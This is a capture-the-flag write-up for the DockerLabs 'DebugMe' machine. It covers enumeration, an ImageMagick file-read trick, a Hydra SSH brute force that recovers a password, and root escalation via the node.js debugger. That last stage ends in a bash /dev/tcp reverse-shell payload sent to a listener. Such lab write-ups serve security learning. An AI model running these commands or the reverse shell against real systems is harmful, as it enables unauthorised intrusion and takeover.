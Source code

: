 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs
featured: true
draft: false
tags:
  - writeup
  - dockerlabs
  - LFI
  - nodejs
description:
  This cybersecurity challenge guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process. 
---
```


This cybersecurity challenge, available on <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pinguino de Mario), guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process to achieve root access. 

## Table of contents

## Enumeration

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](/assets/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](/assets/debugme/image.png)

We visit the website on ports 80 and 443, and the same page appears. It seems to be a tool where we can select an image and the different size versions we want for the image.

![Resize image](/assets/debugme/image-2.png)

When submitting the form with an image and different versions, it shows them on a page.

![Result](/assets/debugme/image-3.png)

We do a bit of fuzzing on the web service using gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

We find the classic info.php, with PHP information.

![gobuster](/assets/debugme/image-4.png)

In `/info.php`, we find a bunch of installed PHP extensions and a slightly outdated PHP version `PHP Version 7.2.24-0ubuntu0.18.04.3`.

We also see that the `GD` and `Image Magick` modules are installed, which may be used for the image transformation service.

## Intrusion

There are likely different ways to perform the intrusion; in this case, we opted for a possible LFI (I think this would be LFI, but I'm not sure) that occurs during ImageMagick transformation.

More information at:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Following the instructions from hackplayers, we install the necessary dependencies:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

We use a PNG and add the profile field with the path we want to inject. This will create the pngout.png file.

![pngcrush](/assets/debugme/image-5.png)

We check that it has been added correctly.

```bash
exiv2 -pS pngout.png
```

![alt text](/assets/debugme/image-6.png)

Now we use the pngout.png image in the web service, select a size, and click on "Resize".

![Resize payload](/assets/debugme/image-7.png)

The two images appear, we right-click on one and download it to our Kali, naming it resultado.png.

![alt text](/assets/debugme/image-8.png)

We check if the data has leaked in the profile.

```bash
identify -verbose resultado.png
```

![alt text](/assets/debugme/image-9.png)

It seems the data leaked correctly. We copy all the hexadecimal bytes from the profile and put them in a single line. Then, we include them in the following Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

And the result:

![alt text](/assets/debugme/image-10.png)

Great, we now have an LFI, and we can see that there is a user named `lenam` and another named `application`.

### SSH Brute Force

If we try to look for other interesting files, we don't find anything. We attempt a brute force attack with the user `lenam` using Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

With a little patience, we find the SSH password for the user lenam.

![lenam ssh password](/assets/debugme/image-11.png)

## Privilege Escalation

We access via SSH using the user `lenam` and the password `loverboy`.

![alt text](/assets/debugme/image-12.png)

We see that we can run the command `/bin/kill` as root with lenam's password.

We also look at the processes that root is running and observe that a node.js process is being executed.

```bash
ps aux | grep root
```

![processes](/assets/debugme/image-13.png)

We check if there are any open local ports and find ports 8000 and 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](/assets/debugme/image-14.png)

Port 8000 seems to be a node.js application.

```bash
curl 127.0.0.1:8000
```

![alt text](/assets/debugme/image-15.png)

Since we can kill any process, we try to open the node.js debugger by sending a `SIGUSR1` signal to the node.js process. This should restart the node.js application with the debug port open (by default, port 9229) and accessible via websockets.

More information:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

To obtain the PID of the node.js process:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

The complete command:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

We check if the debug and inspection port 9229 is now open.

![port 9229](/assets/debugme/image-16.png)

Bingo! It worked. Now we enter the node.js application with the inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](/assets/debugme/image-17.png)

We listen with netcat.

```bash
nc -lvnp 5000
```

And we execute the following payload in the debug console, replacing the IP 10.0.2.15 with yours.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](/assets/debugme/image-18.png)

Congratulations, we are now root.